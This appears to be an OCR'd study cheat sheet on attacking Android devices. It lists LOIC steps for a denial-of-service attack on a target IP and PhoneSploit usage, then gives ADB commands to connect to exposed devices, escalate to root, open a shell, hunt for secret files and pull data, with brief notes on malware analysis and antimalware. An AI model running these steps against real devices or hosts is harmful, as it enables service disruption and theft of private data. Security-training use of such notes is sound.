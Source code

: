 
##   Launch a DoS Attack on a Target Machine

-  Low Orbit Ion Cannon (LOIC) - apk
```bash
click the apk and install it > choose the IP target > get ip > tcp and port 80, threads 100 > start
```


##   Exploit Android Platform though ADB
- phonesploit
```bash
cd PhoneSploit
python3 phonesploit.py
# connect a new phone
# enter a IP address
```

##   Analyze a malicious app
https://www.sisik.eu/apk-tool
https://virustotal.com


##   Secure Android Devices from Malicious Apps
- Malwarebytes Security -> antimalware available on Google Play

## Connect to Android device with adb
>  Search Linux system on the network.
* Port 5555 freeciv or adb (Android Debug Bridge).

> List devices: `adb devices`

> Connect with
```bash
adb connect IP
adb connect IP:PORT
adb -s 127.0.0.1:5555 shell
```

> Escalate privileges
- `adb root`

> Get a shell
- `adb shell`

> Find secret file
- `find /sdcard/ -name "secret.txt" -o -name "another_secret.txt"`

> Download a file
- `adb pull /sdcard/demo.mp4 ./`

> Upload a file
- `adb push test.apk /sdcard`
